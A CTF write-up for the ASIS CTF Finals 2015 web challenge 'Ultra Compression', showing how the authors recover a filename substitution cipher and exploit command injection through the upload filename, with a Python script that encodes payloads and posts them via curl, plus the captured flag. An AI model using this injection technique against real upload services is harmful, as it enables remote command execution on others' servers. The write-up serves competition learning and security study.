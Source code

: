 ```yaml
---
title: ASIS CTF Finals 2015 - Ultra Compression (Web 125)
homedisplay: featimg
author: quanyang
description: ASIS CTF Finals 2015 Web 125. Ultra Compression Service.
tags: [CTF, WEB, ASIS, INJECTION]
category: [CTF, WEB, INJECTION]
--- 
```


ASIS CTF 2015 Finals just took place over the weekend of 10,11 October 2015. The finals is open to all, however only qualified teams will be allowed to win the prizes. NUS Greyhats took part in it and solved a few challenges, this is our write-up for some of the challenges from ASIS CTF 2015 Finals. 

# ultra compression
**Points:**125
**Category:** Web
Go [there](http://ucs.asis-ctf.ir/) and find the flag.

---

# Our solution

Here we were told to go to a webpage to find the flag. Going to the webpage shows an ultra compression service with the ability to upload files.

![]({{site.url|append: site.baseurl}}/img/res/asis/ucs/service.png){: height="auto" width="600px"}

First thing to do is to upload a legitimate file!
I chose a random image file on my machine to upload.

![]({{site.url|append: site.baseurl}}/img/res/asis/ucs/upload.png){: height="300px" width="auto"}

By viewing all embeded javascript, we can tell that the file is sent using ajax to the uploader php script.

The uploader php script is located at 'ajax_php_file.php'. However, it seems that the file uploaded is not stored on the server.

`$(document).ready(function (e) {
$("#upload").on('submit',(function(e) {
e.preventDefault();
$("#message").empty();
$('#loading').show(1000);
$.ajax({
url: "ajax_php_file.php", // Url to which the request is send
type: "POST",             // Type of request to be send, called as method
data: new FormData(this), // Data sent to server, a set of key/value pairs (i.e. form fields and values)
contentType: false,       // The content type used when sending data to the server.
cache: false,             // To unable request pages to be cached
processData:false,        // To send DOMDocument or non processed data file it is set to false
success: function(data)   // A function to be called if request succeeds
{
	$('#loading').hide();
	$("#message").hide(1000);
	$("#message").show(500);
	$("#message").html(data);
}
});
}));`

Using the Chrome browser's developer tool, we can inspect the response of the ajax call.

![]({{site.url|append: site.baseurl}}/img/res/asis/ucs/crypt.png){: height="300px" width="auto"}

As you can see, the filename
`Screen Shot 2015-10-11 at 00.40.02.png`
gets encrypted to
`ow.nnm oOsV G1ig-i1-ii cV 11Jh1J1GJ5my`

Following this finding, we can attempt to map every possible plaintext to their corresponding ciphertext, this gives us the mapping of:

`crypt = "YLyA83tfONHDInmSc7JCb64PBxQaZTRu.viMWj9lhzgwGdeqEV25Kos1Fkp0/Xr"
plain = ".0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"`

Attempting to insert a semi-colon into the filename shows that the field was injectable.
![]({{site.url|append: site.baseurl}}/img/res/asis/ucs/injection.png){: height="200px" width="auto"}

Using a python script to automatically map payload back to their corresponding plaintext, we can then inject commands to the website.

{% highlight python linenos=table %}
import subprocess,sys

crypt = "YLyA83tfONHDInmSc7JCb64PBxQaZTRu.viMWj9lhzgwGdeqEV25Kos1Fkp0/Xr"
plain = ".0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"

mapping = dict()

for x,p in enumerate(plain):
	mapping[crypt[x]] = p

inject = sys.argv[1]

out = ""

for x in inject:
	if x in mapping:
		out = out + mapping[x]
	else:
		out = out + x

print out

cmd = "curl 'http://ucs.asis-ctf.ir/ajax_php_file.php' -H 'Pragma: no-cache' -H 'Origin: http://ucs.asis-ctf.ir' -H 
'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-GB,en;q=0.8,en-US;q=0.6,id;q=0.4' 
-H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.101 Safari/537.36' 
-H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryes1iD3vHWDOD2gkZ' -H 'Accept: */*' -H 'Cache-Control: no-cache' 
-H 'X-Requested-With: XMLHttpRequest' -H 'Cookie: PHPSESSID=' -H 'Connection: keep-alive' 
-H 'Referer: http://ucs.asis-ctf.ir/' -H 'DNT: 1' --data-binary $'------WebKitFormBoundaryes1iD3vHWDOD2gkZ\r\nContent-Disposition: form-data; name=\"file\"; 
filename=\""+out+"\"\r\nContent-Type: image/png\r\n\r\n\r\n------WebKitFormBoundaryes1iD3vHWDOD2gkZ--\r\n' --compressed"

p = subprocess.Popen(cmd,shell=True,stdout=subprocess.PIPE)

out = p.communicate()
print out
{% endhighlight %}

Traversing to /home/asis/, we can then do a ls to see that the flag.txt is kept there. Finally, using a cat command, we can obtain the flag!

![]({{site.url|append: site.baseurl}}/img/res/asis/ucs/flag.png){: height="200px" width="auto"}

And we have our flag: **ASIS{72a126946e40f67a04d926dd4786ff15}**